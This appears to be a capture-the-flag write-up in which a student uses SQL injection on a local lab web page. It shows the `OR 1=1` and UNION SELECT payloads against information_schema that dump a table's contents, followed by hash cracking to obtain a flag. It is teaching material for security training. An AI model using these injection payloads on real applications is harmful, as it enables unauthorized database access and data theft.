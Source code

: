 Going to the search image page http://localhost:8080/index.php?page=searchimg we find an input field that we are going to test.

Let's try doing the same process as our previous SQL Injection with `1 OR 1=1`:

```
ID: 1 OR 1=1 
Title: Nsa
Url : https://fr.wikipedia.org/wiki/Programme_

ID: 1 OR 1=1 
Title: 42 !
Url : https://fr.wikipedia.org/wiki/Fichier:42

ID: 1 OR 1=1 
Title: Google
Url : https://fr.wikipedia.org/wiki/Logo_de_Go

ID: 1 OR 1=1 
Title: Earth
Url : https://en.wikipedia.org/wiki/Earth#/med

ID: 1 OR 1=1 
Title: Hack me ?
Url : borntosec.ddns.net/images.png
```

Now let's retrieve the columns with `1 UNION SELECT table_name, column_name FROM information_schema.columns WHERE table_schema=database() --`:

```
ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns WHERE table_schema=database() -- 
Title: Nsa
Url : https://fr.wikipedia.org/wiki/Programme_

ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns WHERE table_schema=database() -- 
Title: id
Url : list_images

ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns WHERE table_schema=database() -- 
Title: url
Url : list_images

ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns WHERE table_schema=database() -- 
Title: title
Url : list_images

ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns WHERE table_schema=database() -- 
Title: comment
Url : list_images
```

Now we know that in the `list_images` table there are 4 columns `id`, `url`, `title`, `comment`.
Let's check what's inside the `title` and `comment` columns `1 UNION SELECT title, comment FROM list_images --`:

```
ID: 1 UNION SELECT title, comment FROM list_images -- 
Title: Nsa
Url : https://fr.wikipedia.org/wiki/Programme_

ID: 1 UNION SELECT title, comment FROM list_images -- 
Title: An image about the NSA !
Url : Nsa

ID: 1 UNION SELECT title, comment FROM list_images -- 
Title: There is a number..
Url : 42 !

ID: 1 UNION SELECT title, comment FROM list_images -- 
Title: Google it !
Url : Google

ID: 1 UNION SELECT title, comment FROM list_images -- 
Title: Earth!
Url : Earth

ID: 1 UNION SELECT title, comment FROM list_images -- 
Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : Hack me ?
```

Let's follow the instructions just found:
 - `1928e8083cf461a51303633093573c46` decrypted -> `albatroz`
 - SH256 -> `f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188`

To remediate this vulnerability, the application should follow the same ideas as stated in the other SQL Injection.